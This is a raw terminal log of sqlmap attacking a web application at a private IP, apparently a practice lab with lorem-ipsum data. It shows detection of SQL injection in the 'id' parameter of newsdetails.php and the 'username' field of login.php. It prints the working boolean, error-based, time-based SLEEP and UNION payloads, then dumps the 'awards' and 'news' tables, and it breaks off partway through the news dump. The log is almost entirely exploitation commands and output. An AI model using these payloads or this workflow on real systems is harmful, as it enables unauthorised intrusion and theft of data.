[*] starting @ 04:48:57 /2021-08-08/

do you want to check for the existence of site's sitemap(.xml) [y/N] N
[04:49:00] [INFO] starting crawler for target URL 'http://10.124.211.96/newsdetails.php'
[04:49:00] [INFO] searching for links with depth 1
[04:49:01] [INFO] searching for links with depth 2                                                                                                                     
please enter number of threads? [Enter for 1 (current)] 
[04:49:02] [WARNING] running in a single-thread mode. This could take a while
do you want to normalize crawling results [Y/n]                                                                                                                        
do you want to store crawling results to a temporary file for eventual further processing with other tools [y/N] 
[04:49:10] [INFO] found a total of 2 targets
[#1] form:
POST http://10.124.211.96/login.php
POST data: username=&password=&submit=Login
do you want to test this form? [Y/n/q] 
> n
URL 2:
GET http://10.124.211.96/newsdetails.php?id=26
do you want to test this URL? [Y/n/q]
> Y
[04:49:15] [INFO] testing URL 'http://10.124.211.96/newsdetails.php?id=26'
[04:49:15] [INFO] using '/home/kali/.local/share/sqlmap/output/results-08082021_0449am.csv' as the CSV results file in multiple targets mode
[04:49:16] [INFO] testing if the target URL content is stable
[04:49:16] [INFO] target URL content is stable
[04:49:16] [INFO] testing if GET parameter 'id' is dynamic
[04:49:16] [INFO] GET parameter 'id' appears to be dynamic
[04:49:17] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[04:49:17] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[04:49:21] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[04:49:23] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="est")
[04:49:23] [INFO] testing 'Generic inline queries'
[04:49:23] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[04:49:24] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[04:49:24] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[04:49:24] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[04:49:25] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[04:49:25] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[04:49:25] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[04:49:25] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[04:49:26] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[04:49:26] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[04:49:26] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[04:49:26] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[04:49:27] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[04:49:27] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[04:49:27] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[04:49:28] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[04:49:28] [INFO] GET parameter 'id' is 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)' injectable 
[04:49:28] [INFO] testing 'MySQL inline queries'
[04:49:28] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[04:49:28] [WARNING] time-based comparison requires larger statistical model, please wait.... (done)                                                                   
[04:49:30] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[04:49:30] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[04:49:31] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[04:49:31] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[04:49:31] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[04:49:32] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[04:49:53] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[04:49:53] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[04:49:53] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[04:49:53] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[04:49:55] [INFO] target URL appears to have 1 column in query
[04:49:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 47 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=26 AND 1138=1138

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: id=26 OR ROW(9112,1658)>(SELECT COUNT(*),CONCAT(0x716b7a6a71,(SELECT (ELT(9112=9112,1))),0x71786b6a71,FLOOR(RAND(0)*2))x FROM (SELECT 7811 UNION SELECT 6592 UNION SELECT 6244 UNION SELECT 7050)a GROUP BY x)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=26 AND (SELECT 6908 FROM (SELECT(SLEEP(5)))oXom)

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: id=26 UNION ALL SELECT CONCAT(0x716b7a6a71,0x57504847504772727a4669716961496d6d5073614146686f62727946637845616e666d737a56734c,0x71786b6a71)-- -
---
do you want to exploit this SQL injection? [Y/n] 
[04:50:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 7 (wheezy)
web application technology: Apache 2.2.22, PHP 5.4.4
back-end DBMS: MySQL >= 4.1
[04:50:13] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/kali/.local/share/sqlmap/output/results-08082021_0449am.csv'
[04:50:13] [WARNING] your sqlmap version is outdated

[*] ending @ 04:50:13 /2021-08-08/

```


```
┌──(kali㉿kali)-[/media/sf_Stuff/Hacking/pts]
└─$ sqlmap -u http://10.124.211.96/ --forms --crawl=2 --dump 
        ___
       __H__                                                                                                                                                            
 ___ ___[']_____ ___ ___  {1.5.2#stable}                                                                                                                                
|_ -| . ["]     | .'| . |                                                                                                                                               
|___|_  [)]_|_|_|__,|  _|                                                                                                                                               
      |_|V...       |_|   http://sqlmap.org                                                                                                                             

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 04:56:49 /2021-08-08/

do you want to check for the existence of site's sitemap(.xml) [y/N] 
[04:56:51] [INFO] starting crawler for target URL 'http://10.124.211.96/'
[04:56:51] [INFO] searching for links with depth 1
[04:56:52] [INFO] searching for links with depth 2                                                                                                                     
please enter number of threads? [Enter for 1 (current)] 
[04:56:53] [WARNING] running in a single-thread mode. This could take a while
do you want to normalize crawling results [Y/n]                                                                                                                        
do you want to store crawling results to a temporary file for eventual further processing with other tools [y/N] 
[04:57:02] [INFO] found a total of 2 targets
[#1] form:
POST http://10.124.211.96/login.php
POST data: username=&password=&submit=Login
do you want to test this form? [Y/n/q] 
> 
Edit POST data [default: username=&password=&submit=Login] (Warning: blank fields detected): 
do you want to fill blank fields with random values? [Y/n] 
[04:57:06] [INFO] resuming back-end DBMS 'mysql' 
[04:57:06] [INFO] using '/home/kali/.local/share/sqlmap/output/results-08082021_0457am.csv' as the CSV results file in multiple targets mode
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=IwEj' AND (SELECT 7848 FROM (SELECT(SLEEP(5)))popd) AND 'ebkN'='ebkN&password=&submit=Login
---
do you want to exploit this SQL injection? [Y/n] 
[04:57:08] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 7 (wheezy)
web application technology: Apache 2.2.22, PHP 5.4.4
back-end DBMS: MySQL >= 5.0.12
[04:57:08] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[04:57:08] [INFO] fetching current database
[04:57:08] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                         
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
[04:57:38] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
a
[04:57:50] [INFO] adjusting time delay to 2 seconds due to good response times
wd
[04:58:08] [INFO] fetching tables for database: 'awd'
[04:58:08] [INFO] fetching number of tables for database 'awd'
[04:58:08] [INFO] retrieved: 3
[04:58:17] [INFO] retrieved: accounts
[04:59:26] [INFO] retrieved: awards
[05:00:08] [INFO] retrieved: news
[05:00:46] [INFO] fetching columns for table 'awards' in database 'awd'
[05:00:46] [INFO] retrieved: 4
[05:00:51] [INFO] retrieved: supplier
[05:02:05] [INFO] retrieved: title
[05:02:50] [INFO] retrieved: guri
[05:03:23] [INFO] retrieved: guue
[05:03:58] [INFO] fetching entries for table 'awards' in database 'awd'
[05:03:58] [INFO] fetching number of entries for table 'awards' in database 'awd'
[05:03:58] [INFO] retrieved: 50
[05:04:19] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                
Apr 12, 2015
[05:06:15] [INFO] retrieved: Jul 10, 2017
[05:08:04] [INFO] retrieved: Faucibus Lectus As^C
[05:10:35] [WARNING] Ctrl+C detected in dumping phase                                                                                                                  
Database: awd
Table: awards
[0 entries]
+--------------+--------------+----------+
| guri         | guue         | supplier |
+--------------+--------------+----------+
+--------------+--------------+----------+

[05:10:35] [INFO] table 'awd.awards' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.124.211.96/dump/awd/awards.csv'
SQL injection vulnerability has already been detected against '10.124.211.96'. Do you want to skip further tests involving it? [Y/n] n
URL 2:
GET http://10.124.211.96/newsdetails.php?id=26
do you want to test this URL? [Y/n/q]
> Y
[05:10:44] [INFO] testing URL 'http://10.124.211.96/newsdetails.php?id=26'
[05:10:44] [INFO] resuming back-end DBMS 'mysql' 
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=26 AND 1138=1138

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: id=26 OR ROW(9112,1658)>(SELECT COUNT(*),CONCAT(0x716b7a6a71,(SELECT (ELT(9112=9112,1))),0x71786b6a71,FLOOR(RAND(0)*2))x FROM (SELECT 7811 UNION SELECT 6592 UNION SELECT 6244 UNION SELECT 7050)a GROUP BY x)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=26 AND (SELECT 6908 FROM (SELECT(SLEEP(5)))oXom)

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: id=26 UNION ALL SELECT CONCAT(0x716b7a6a71,0x57504847504772727a4669716961496d6d5073614146686f62727946637845616e666d737a56734c,0x71786b6a71)-- -
---
do you want to exploit this SQL injection? [Y/n] 
[05:10:45] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 7 (wheezy)
web application technology: Apache 2.2.22, PHP 5.4.4
back-end DBMS: MySQL >= 4.1
[05:10:45] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[05:10:45] [INFO] fetching current database
[05:10:45] [INFO] fetching tables for database: 'awd'
[05:10:46] [INFO] fetching columns for table 'awards' in database 'awd'
[05:10:47] [INFO] fetching entries for table 'awards' in database 'awd'
Database: awd
Table: awards
[50 entries]
+--------------+--------------+----------------------------------------------+--------------------------------------+
| guri         | guue         | title                                        | supplier                             |
+--------------+--------------+----------------------------------------------+--------------------------------------+
| Oct 23, 2015 | May 13, 2017 | tristique ac, eleifend                       | Ullamcorper LLP                      |
| Mar 15, 2016 | Apr 18, 2016 | Cras                                         | Ut Institute                         |
| Mar 3, 2016  | Nov 20, 2017 | Aenean eget metus. In                        | Ad Litora Torquent Inc.              |
| Dec 16, 2015 | Jul 11, 2016 | facilisis lorem                              | Donec LLP                            |
| Apr 29, 2017 | Dec 17, 2015 | nibh. Donec est mauris,                      | Conubia Nostra Per Inc.              |
| Nov 22, 2017 | Jul 31, 2017 | mi                                           | Phasellus Corporation                |
| Nov 14, 2016 | Nov 22, 2016 | amet                                         | Elit Fermentum Risus Corp.           |
| Sep 2, 2015  | Feb 7, 2017  | nibh                                         | Lorem Ipsum Dolor Consulting         |
| Jul 8, 2015  | May 10, 2015 | lacinia vitae,                               | Quisque Fringilla LLC                |
| Jul 20, 2016 | Dec 14, 2015 | mattis ornare, lectus ante dictum            | Justo Company                        |
| Jan 10, 2018 | Aug 11, 2015 | rhoncus id,                                  | Nisi Dictum Augue Consulting         |
| Jul 7, 2018  | Sep 25, 2016 | nisl. Nulla eu neque pellentesque            | Nibh Consulting                      |
| Dec 5, 2017  | Dec 20, 2015 | urna. Nunc quis arcu vel                     | Egestas Lacinia Corporation          |
| Mar 8, 2016  | Sep 15, 2016 | convallis convallis dolor. Quisque tincidunt | Donec Industries                     |
| Apr 23, 2018 | Dec 7, 2015  | In ornare                                    | Magna Duis Corp.                     |
| Jun 11, 2015 | Apr 9, 2016  | Nam nulla                                    | Urna Nec Industries                  |
| Oct 31, 2015 | Jun 16, 2017 | pede, nonummy ut,                            | Cras Foundation                      |
| Feb 17, 2017 | Feb 23, 2017 | vitae odio                                   | Lobortis Inc.                        |
| Mar 29, 2018 | Mar 5, 2015  | risus. Duis a mi fringilla                   | Nam Nulla Magna Corp.                |
| May 12, 2018 | Feb 29, 2016 | lobortis, nisi                               | At Limited                           |
| Apr 26, 2017 | Dec 23, 2015 | magna. Lorem ipsum dolor                     | Fames Ac Institute                   |
| May 18, 2015 | Feb 24, 2016 | nulla vulputate dui,                         | Non Lorem Vitae Industries           |
| Dec 12, 2016 | Aug 18, 2015 | non, egestas a, dui.                         | Nonummy Industries                   |
| Jul 2, 2015  | May 6, 2017  | diam. Duis mi enim, condimentum              | Non Sapien Molestie Ltd              |
| Jun 25, 2015 | Jul 3, 2015  | hendrerit                                    | Ut Erat Company                      |
| Apr 21, 2017 | Apr 30, 2016 | blandit mattis.                              | Rutrum Non Hendrerit Associates      |
| May 28, 2018 | Apr 24, 2015 | varius et, euismod et,                       | Et Commodo At Corp.                  |
| May 30, 2015 | May 29, 2017 | neque et nunc.                               | Magna Lorem Ipsum Consulting         |
| Jul 24, 2015 | Apr 8, 2015  | Donec fringilla. Donec feugiat metus         | Velit Corp.                          |
| Jul 20, 2017 | Mar 30, 2015 | Aliquam adipiscing lobortis risus.           | Ultrices Iaculis Foundation          |
| May 3, 2018  | Apr 2, 2015  | ipsum primis in faucibus orci                | Egestas Incorporated                 |
| Mar 5, 2015  | Dec 16, 2016 | gravida mauris ut                            | Tempus Associates                    |
| Mar 26, 2017 | Oct 18, 2016 | luctus felis purus ac                        | Massa Corp.                          |
| Jan 26, 2017 | Dec 19, 2015 | justo. Proin non massa non                   | Feugiat Nec Diam Corp.               |
| Jan 27, 2018 | Apr 18, 2017 | erat                                         | Arcu LLC                             |
| Apr 12, 2015 | Jul 10, 2017 | sit amet risus.                              | Faucibus Lectus Associates           |
| Apr 30, 2015 | Oct 26, 2017 | a, arcu.                                     | Quisque Nonummy Ipsum Corp.          |
| Jan 31, 2018 | Sep 10, 2017 | nibh enim,                                   | Fermentum PC                         |
| Dec 9, 2017  | Mar 11, 2015 | vel lectus.                                  | Quam LLP                             |
| Feb 23, 2016 | Sep 5, 2017  | dui. Cum sociis natoque                      | Urna Ut Company                      |
| Mar 12, 2016 | Feb 3, 2017  | Cras lorem lorem,                            | A Magna Lorem PC                     |
| Oct 13, 2017 | Feb 17, 2017 | sed, est. Nunc laoreet lectus                | Curabitur Consequat Lectus Institute |
| Sep 17, 2016 | Sep 21, 2015 | nunc. Quisque ornare                         | Tincidunt Consulting                 |
| Nov 24, 2015 | Nov 12, 2017 | Aliquam                                      | Ultricies Adipiscing Limited         |
| Jun 20, 2015 | Apr 26, 2017 | a sollicitudin orci sem eget                 | A Nunc Corp.                         |
| Jul 3, 2017  | Oct 11, 2016 | at, egestas a,                               | Elit Pharetra Corporation            |
| Feb 5, 2015  | May 30, 2016 | mattis semper, dui lectus                    | Lorem Fringilla Associates           |
| Jan 29, 2018 | May 9, 2016  | Etiam vestibulum massa rutrum                | Imperdiet Ornare Corporation         |
| Apr 24, 2016 | Mar 23, 2015 | imperdiet non, vestibulum                    | Nec Mauris Blandit Consulting        |
| Aug 27, 2015 | Oct 20, 2016 | Fusce                                        | Aenean Gravida Corporation           |
+--------------+--------------+----------------------------------------------+--------------------------------------+

[05:10:48] [INFO] table 'awd.awards' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.124.211.96/dump/awd/awards.csv'
[05:10:48] [INFO] fetching columns for table 'news' in database 'awd'
[05:10:49] [INFO] fetching entries for table 'news' in database 'awd'
Database: awd
Table: news
[40 entries]
+----+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------+---------------------+--------+
| id | text                                                                                                                                                                                                                                                                                                                                                                                                                  | title                                                | date                | author |
+----+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------+---------------------+--------+
| 1  | tortor nibh sit amet orci. Ut sagittis lobortis mauris. Suspendisse aliquet molestie tellus. Aenean egestas hendrerit neque. In ornare sagittis felis. Donec tempor, est ac mattis semper, dui lectus rutrum urna, nec luctus felis purus ac tellus. Suspendisse sed dolor. Fusce                                                                                                                                     | dolor sit                                            | 2014-06-26 02:09:46 | 1      |
| 2  | ac facilisis facilisis, magna tellus faucibus leo, in lobortis tellus justo sit amet nulla. Donec non justo. Proin non massa non ante bibendum ullamcorper. Duis cursus, diam at pretium aliquet, metus urna convallis erat, eget tincidunt dui augue                                                                                                                                                                 | lectus. Nullam suscipit,                             | 2013-10-01 12:26:35 | 6      |
| 3  | erat eget ipsum. Suspendisse sagittis. Nullam vitae diam. Proin dolor. Nulla semper tellus id nunc interdum feugiat. Sed nec metus facilisis lorem tristique aliquet. Phasellus fermentum convallis ligula. Donec luctus aliquet odio. Etiam ligula tortor, dictum                                                                                                                                                    | Integer vulputate, risus a                           | 2013-11-21 23:56:56 | 4      |
| 4  | Etiam bibendum fermentum metus. Aenean sed pede nec ante blandit viverra. Donec tempus, lorem fringilla ornare placerat, orci lacus                                                                                                                                                                                                                                                                                   | ultrices posuere cubilia                             | 2014-01-14 04:53:07 | 6      |
| 5  | sollicitudin orci sem eget massa. Suspendisse eleifend. Cras sed leo. Cras vehicula aliquet libero. Integer in magna. Phasellus dolor elit, pellentesque a, facilisis non, bibendum sed, est. Nunc laoreet lectus quis massa. Mauris vestibulum, neque sed dictum eleifend, nunc risus varius orci, in consequat enim diam vel arcu. Curabitur ut odio vel est tempor bibendum. Donec                                 | magna. Nam ligula elit, pretium et,                  | 2013-12-03 22:39:23 | 4      |
| 6  | nascetur ridiculus mus. Proin vel arcu eu odio tristique pharetra. Quisque ac libero nec ligula consectetuer rhoncus. Nullam velit dui, semper et, lacinia vitae, sodales at, velit. Pellentesque ultricies dignissim lacus. Aliquam rutrum                                                                                                                                                                           | justo. Praesent luctus. Curabitur egestas            | 2013-12-08 03:10:20 | 3      |
| 7  | convallis convallis dolor. Quisque tincidunt pede ac urna. Ut tincidunt vehicula risus. Nulla eget metus eu erat                                                                                                                                                                                                                                                                                                      | arcu. Vestibulum ante ipsum primis                   | 2014-06-24 10:33:00 | 5      |
| 8  | Pellentesque habitant morbi tristique senectus et netus et malesuada fames ac turpis egestas. Aliquam fringilla cursus purus. Nullam scelerisque neque sed sem egestas blandit. Nam nulla magna, malesuada vel, convallis in, cursus et, eros. Proin ultrices. Duis volutpat nunc sit amet metus. Aliquam erat volutpat. Nulla facilisis. Suspendisse commodo tincidunt nibh. Phasellus nulla. Integer vulputate,     | posuere at, velit. Cras lorem lorem,                 | 2014-06-17 08:38:01 | 4      |
| 9  | aliquet odio. Etiam ligula tortor, dictum eu, placerat eget, venenatis a, magna. Lorem ipsum dolor sit amet, consectetuer adipiscing elit. Etiam laoreet, libero et tristique pellentesque, tellus sem mollis dui, in sodales elit erat vitae risus. Duis a mi fringilla mi lacinia mattis. Integer eu lacus. Quisque imperdiet, erat nonummy ultricies                                                               | eros. Proin ultrices. Duis                           | 2013-11-07 10:36:14 | 6      |
| 10 | sed consequat auctor, nunc nulla vulputate dui, nec tempus mauris erat eget ipsum. Suspendisse sagittis. Nullam vitae diam. Proin dolor. Nulla semper tellus id nunc interdum feugiat. Sed nec metus facilisis lorem tristique aliquet. Phasellus fermentum convallis                                                                                                                                                 | amet, faucibus ut, nulla.                            | 2014-04-13 06:00:45 | 6      |
| 11 | massa non ante bibendum ullamcorper. Duis cursus, diam at pretium aliquet, metus urna convallis erat, eget tincidunt dui augue eu tellus. Phasellus elit pede, malesuada vel, venenatis vel, faucibus id, libero. Donec consectetuer mauris id sapien. Cras dolor dolor, tempus non, lacinia at, iaculis quis,                                                                                                        | ac mi eleifend egestas. Sed                          | 2013-11-08 18:06:21 | 6      |
| 12 | dui. Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus. Aenean eget magna. Suspendisse tristique neque venenatis lacus. Etiam bibendum fermentum metus. Aenean sed pede nec ante blandit viverra. Donec tempus, lorem fringilla ornare placerat, orci lacus vestibulum lorem, sit                                                                                                  | non quam.                                            | 2014-08-25 11:10:01 | 3      |
| 13 | Cras lorem lorem, luctus ut, pellentesque eget, dictum placerat, augue. Sed molestie. Sed id risus quis diam luctus lobortis. Class aptent taciti sociosqu ad litora torquent per conubia nostra, per inceptos hymenaeos. Mauris ut quam vel sapien imperdiet ornare. In faucibus. Morbi vehicula. Pellentesque tincidunt tempus risus. Donec egestas.                                                                | facilisis eget, ipsum. Donec sollicitudin adipiscing | 2014-04-19 03:30:44 | 5      |
| 14 | lectus, a sollicitudin orci sem eget massa. Suspendisse eleifend. Cras sed leo. Cras vehicula aliquet libero. Integer in magna. Phasellus dolor elit, pellentesque a, facilisis non, bibendum sed, est. Nunc laoreet lectus quis massa. Mauris vestibulum, neque sed dictum eleifend, nunc risus varius orci, in consequat enim diam vel arcu. Curabitur ut                                                           | porttitor tellus non magna. Nam                      | 2014-02-12 15:19:57 | 5      |
| 15 | varius et, euismod et, commodo at, libero. Morbi accumsan laoreet ipsum. Curabitur consequat, lectus sit amet luctus vulputate, nisi sem semper erat, in consectetuer ipsum nunc id enim. Curabitur massa. Vestibulum accumsan neque et nunc. Quisque ornare tortor at risus. Nunc ac sem ut dolor dapibus gravida. Aliquam tincidunt, nunc ac mattis ornare, lectus ante dictum mi,                                  | massa. Quisque                                       | 2014-07-18 14:03:40 | 2      |
| 16 | Morbi accumsan laoreet ipsum. Curabitur consequat, lectus sit amet luctus vulputate, nisi sem semper erat, in consectetuer ipsum nunc id enim. Curabitur massa. Vestibulum accumsan neque et nunc. Quisque ornare                                                                                                                                                                                                     | a, dui.                                              | 2014-03-01 17:57:57 | 1      |
| 17 | justo nec ante. Maecenas mi felis, adipiscing fringilla, porttitor vulputate, posuere vulputate, lacus. Cras interdum. Nunc sollicitudin commodo ipsum. Suspendisse non leo. Vivamus                                                                                                                                                                                                                                  | pede blandit congue. In                              | 2014-05-12 15:17:34 | 2      |
| 18 | arcu. Vestibulum ut eros non enim commodo hendrerit. Donec porttitor tellus non magna. Nam ligula elit, pretium et, rutrum non, hendrerit                                                                                                                                                                                                                                                                             | elit. Nulla facilisi.                                | 2013-10-30 16:23:31 | 2      |
| 19 | placerat, orci lacus vestibulum lorem, sit amet ultricies sem magna nec quam. Curabitur vel lectus. Cum sociis natoque penatibus et magnis dis parturient montes, nascetur                                                                                                                                                                                                                                            | eu, ligula.                                          | 2014-07-11 17:07:49 | 4      |
| 20 | tincidunt nibh. Phasellus nulla. Integer vulputate, risus a ultricies adipiscing, enim mi tempor lorem, eget mollis lectus                                                                                                                                                                                                                                                                                            | a, aliquet vel,                                      | 2013-11-02 14:21:56 | 5      |
| 21 | ipsum. Donec sollicitudin adipiscing ligula. Aenean gravida nunc sed pede. Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus. Proin vel arcu eu odio tristique pharetra. Quisque ac libero nec ligula consectetuer rhoncus. Nullam velit dui, semper et, lacinia vitae, sodales at, velit. Pellentesque ultricies dignissim lacus. Aliquam rutrum lorem ac risus. Morbi metus.     | pharetra. Nam                                        | 2014-03-09 03:37:11 | 5      |
| 22 | Integer sem elit, pharetra ut, pharetra sed, hendrerit a, arcu. Sed et libero. Proin mi. Aliquam gravida mauris ut mi. Duis risus odio, auctor vitae, aliquet nec, imperdiet nec, leo. Morbi neque tellus, imperdiet non, vestibulum nec, euismod in, dolor.                                                                                                                                                          | eu tellus eu augue porttitor interdum.               | 2014-01-04 09:24:57 | 1      |
| 23 | vestibulum lorem, sit amet ultricies sem magna nec quam. Curabitur vel lectus. Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus. Donec dignissim magna a tortor. Nunc commodo auctor velit. Aliquam nisl. Nulla eu neque pellentesque massa lobortis ultrices. Vivamus rhoncus. Donec est. Nunc ullamcorper,                                                                      | metus vitae velit egestas lacinia.                   | 2014-05-07 09:30:37 | 3      |
| 24 | sed pede nec ante blandit viverra. Donec tempus, lorem fringilla ornare placerat, orci lacus vestibulum lorem, sit amet ultricies sem magna nec quam. Curabitur vel lectus. Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus. Donec dignissim magna a tortor. Nunc commodo auctor velit. Aliquam nisl. Nulla eu neque pellentesque massa lobortis ultrices. Vivamus               | non nisi. Aenean eget metus. In                      | 2013-10-22 06:49:17 | 4      |
| 25 | dolor quam, elementum at, egestas a, scelerisque sed, sapien. Nunc pulvinar arcu et pede. Nunc sed orci lobortis augue scelerisque mollis. Phasellus                                                                                                                                                                                                                                                                  | metus vitae velit egestas lacinia. Sed               | 2014-08-22 04:24:24 | 4      |
| 26 | neque sed dictum eleifend, nunc risus varius orci, in consequat enim diam vel arcu. Curabitur ut odio vel est tempor bibendum. Donec felis orci, adipiscing non,                                                                                                                                                                                                                                                      | suscipit, est ac facilisis facilisis, magna          | 2014-09-14 16:40:38 | 4      |
| 27 | cubilia Curae; Phasellus ornare. Fusce mollis. Duis sit amet diam eu dolor egestas rhoncus. Proin                                                                                                                                                                                                                                                                                                                     | felis, adipiscing fringilla, porttitor               | 2013-10-30 19:03:48 | 1      |
| 28 | diam. Proin dolor. Nulla semper tellus id nunc interdum feugiat. Sed nec metus facilisis lorem tristique aliquet. Phasellus fermentum convallis ligula. Donec luctus aliquet odio. Etiam ligula tortor, dictum eu, placerat eget, venenatis a, magna. Lorem ipsum dolor sit amet, consectetuer adipiscing elit. Etiam laoreet, libero et tristique pellentesque, tellus sem                                           | Donec est mauris, rhoncus id,                        | 2014-01-11 05:55:16 | 4      |
| 29 | Sed auctor odio a purus. Duis elementum, dui quis accumsan convallis, ante lectus convallis est, vitae sodales nisi magna sed dui. Fusce aliquam, enim nec tempus                                                                                                                                                                                                                                                     | elit elit                                            | 2014-09-10 00:02:58 | 2      |
| 30 | ipsum cursus vestibulum. Mauris magna. Duis dignissim tempor arcu. Vestibulum ut eros non enim commodo hendrerit. Donec porttitor tellus non magna. Nam ligula elit, pretium et, rutrum non, hendrerit id, ante. Nunc mauris sapien, cursus in, hendrerit consectetuer,                                                                                                                                               | eget laoreet posuere, enim                           | 2014-05-02 02:37:45 | 1      |
| 31 | nec urna suscipit nonummy. Fusce fermentum fermentum arcu. Vestibulum ante ipsum primis in faucibus orci luctus                                                                                                                                                                                                                                                                                                       | natoque penatibus et magnis dis                      | 2014-01-30 17:43:30 | 2      |
| 32 | accumsan laoreet ipsum. Curabitur consequat, lectus sit amet luctus vulputate, nisi sem semper erat, in consectetuer ipsum nunc id enim. Curabitur massa. Vestibulum accumsan                                                                                                                                                                                                                                         | semper rutrum. Fusce dolor quam,                     | 2013-10-26 23:35:10 | 1      |
| 33 | dictum sapien. Aenean massa. Integer vitae nibh. Donec est mauris, rhoncus id, mollis nec, cursus a, enim. Suspendisse aliquet, sem ut cursus luctus, ipsum leo                                                                                                                                                                                                                                                       | pharetra. Quisque ac libero nec ligula               | 2014-08-11 10:57:27 | 3      |
